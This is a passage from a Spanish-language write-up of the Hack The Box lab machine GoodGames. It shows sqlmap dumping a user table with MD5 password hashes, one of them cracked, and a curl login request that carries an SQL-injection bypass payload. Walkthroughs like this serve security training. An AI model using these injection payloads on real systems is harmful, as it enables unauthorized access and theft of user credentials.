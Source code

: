 ```bash
[19:37:34] [INFO] cracked password 'test123' for hash 'cc03e747a6afbbcbf8be7668acfebee5'                                                                                                                        
Database: main                                                                                                                                                                                                  
Table: user
[2 entries]
+----+---------------------+--------+--------------------------------------------+
| id | email               | name   | password                                   |
+----+---------------------+--------+--------------------------------------------+
| 1  | admin@goodgames.htb | admin  | 2b22337f218b2d82dfc3b6f77e7cb8ec           |
| 2  | test@test.com       | test   | cc03e747a6afbbcbf8be7668acfebee5 (test123) |
+----+---------------------+--------+--------------------------------------------+

[19:37:35] [INFO] table 'main.`user`' dumped to CSV file '/root/.local/share/sqlmap/output/10.10.11.130/dump/main/user.csv'
[19:37:35] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/10.10.11.130'

[*] ending @ 19:37:35 /2024-10-14/
```
Listo, obtuvimos la contraseña del administrador.

Si analizas la respuesta de **sqlmap**, parece que identifico que las contraseñas fueron encriptadas con **MD5** y hasta crackeo la contraseña de nuestro **usuario test**.

Guardemos este dato para más adelante.

<h2 id="SQL5">Aplicando Inyecciones SQL con curl</h2>

Otra forma en la que podemos aplicar las **inyecciones SQL** es con **curl**.

Tan solo debemos indicarle como data los campos que necesita el login para que funcione, ahí mismo incluiremos la **SQLi**.

Probémoslo:
```bash
curl -s -X POST http://10.10.11.130/login --data "email=test1@test.com' or 1=1-- -&password=test123"
<!DOCTYPE html>

<html lang="en">
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">

    <title>GoodGames | Login Success</title>

    <meta name="description" content="GoodGames - Bootstrap template for communities and games store">
...
...
...
```
Funciono, pero obtenemos toda la respuesta y eso no es óptimo.
